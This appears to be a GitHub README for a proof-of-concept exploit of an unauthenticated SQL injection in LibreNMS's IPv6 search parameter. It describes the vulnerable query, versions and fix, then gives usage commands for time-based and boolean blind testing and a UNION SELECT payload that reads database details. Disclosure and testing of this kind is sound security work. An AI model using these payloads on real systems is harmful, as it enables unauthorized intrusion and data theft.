

# CVE-2026-26988 – LibreNMS Unauthenticated SQL Injection PoC

**Unauthenticated SQL Injection** in LibreNMS `ajax_table.php` via IPv6 address search parameter.

- **Affected versions**: LibreNMS ≤ 25.12.0
- **Fixed in**: LibreNMS ≥ 26.1 (commit `15429580baba03ed1dd377bada1bde4b7a1175a1`)
- **CVSS v4.0**: 9.3 Critical  
  `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:N`
- **CWE**: CWE-89 (Improper Neutralization of Special Elements used in an SQL Command – SQL Injection)

## Vulnerability Summary

The `address` parameter when `search_type=ipv6` is split on `/` into address and prefix.  
The prefix is **directly concatenated** into an SQL query without escaping:

```php
$sql .= " AND ipv6_prefixlen = '$prefix'";
```

A single quote (`'`) in the prefix part allows breaking out of the string literal → arbitrary SQL injection.

## Attack Flow Diagram



## Proof-of-Concept Usage

### Requirements
- Python 3.x
- `requests` library (`pip install requests`)

### Basic Test (Syntax Error / 500)

```bash
python3 exploit.py http://target/librenms --test
```

### Time-Based Blind Confirmation (Recommended)

```bash
python3 exploit.py http://192.168.1.50/librenms --time
```

→ If response takes >5–6 seconds → **vulnerable**

### Boolean-Based Blind Test

```bash
python3 exploit.py http://target/librenms --boolean
```

### Custom Payload Example

```bash
python3 exploit.py http://target/librenms --test --payload "64' UNION SELECT database(),user(),version() -- "
```

## Files in this Repository

- `exploit.py` .............. Main PoC script (rename from `cve-2026-26988-poc.py` if needed)
- `README.md` ............... This file

## Responsible Disclosure

- Reported: February 2026 (via GitHub Security Advisory)
- Fixed in: commit `15429580baba...` → PR #18777
- Advisory: https://github.com/librenms/librenms/security/advisories/GHSA-h3rv-q4rq-pqcv

## Legal & Ethical Notice

**This proof-of-concept is provided for educational and authorized security testing purposes only.**

Do **NOT** use this code against any system or network without explicit written permission from the owner.  
Unauthorized use may violate laws including (but not limited to) the Computer Fraud and Abuse Act (CFAA) in the US, or equivalent legislation in your country.

Use at your own risk.

---
**Author:** Mohammed Idrees Banyamer  
**Instagram:** [@banyamer_security](https://instagram.com/banyamer_security)  
**Date:** February 20, 2026

